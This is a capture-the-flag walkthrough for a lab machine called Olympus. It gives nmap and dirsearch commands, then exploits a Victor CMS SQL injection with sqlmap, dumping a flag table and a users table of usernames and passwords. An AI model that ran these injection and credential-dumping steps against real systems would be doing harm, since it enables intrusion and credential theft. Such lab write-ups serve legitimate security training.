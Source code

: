 **Target: 10.10.105.247   Olympus**

**Initial Access:**\
nmap -Pn  10.10.105.247 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ','\
Output shows  open ports: 22,80

Enumerating these open ports further with nmap:\
nmap -Pn  10.10.105.247 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.olympus\
Output shows: 

![image](https://user-images.githubusercontent.com/93153300/198897655-4ff012d9-ac8f-4a25-9f44-6495e11767ac.png)

Nmap shows that port 80 is trying to redirect to olympus.thm. To make the redirect work, let’s add the following to /etc/hosts:  10.10.105.247   olympus.thm

Run directory brute force on port 80 with: dirsearch -r -u http://olympus.thm/ -e txt,php,html -f -w /usr/share/seclists/Discovery/Web-Content/common.txt\
Dirsearch found http://olympus.thm/~webmaster

Navigating to directory /~webmaster shows:

![image](https://user-images.githubusercontent.com/93153300/198897665-9094fb42-1a16-4c90-a3e7-7b1ea732ec7c.png)

The top left corner shows Victor’s CMS.  Let’s check for exploits on victor cms with command:   searchsploit victor

![image](https://user-images.githubusercontent.com/93153300/200088352-a7c47cdf-3bd0-41e4-9167-adf823a120d3.png)

Open the exploit 48734.txt with command: searchsploit -x  php/webapps/48734.txt  

![image](https://user-images.githubusercontent.com/93153300/198897674-f247569f-5ca4-4037-84d0-6af51c71d847.png)

The exploit shows that the parameter 'search' is vulnerable to sql injection.  As shown in the exploit, we will use sqlmap to extract sensitive information: sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search –dbs \
Sqlmap found 6 databases:

![image](https://user-images.githubusercontent.com/93153300/198897682-58ae695d-4009-4b4a-8020-a7098814a1e8.png)

Let’s get the table names on olympus:
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus –tables\
Output shows:

![image](https://user-images.githubusercontent.com/93153300/198897695-d1a8d8d2-838b-4399-b703-fb5fe2efdb7a.png)

Table flag contains the first flag. To dump the flag use:\
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus --tables -T flag --columns -C flag --dump

There is another interesting table called users.  Check the columns for the table 'users':\
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus --tables -T users --columns

Found columns user_name and user_password.  Dump the information to those 2 columns:\
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus --tables -T users --columns -C user_name,user_password --dump

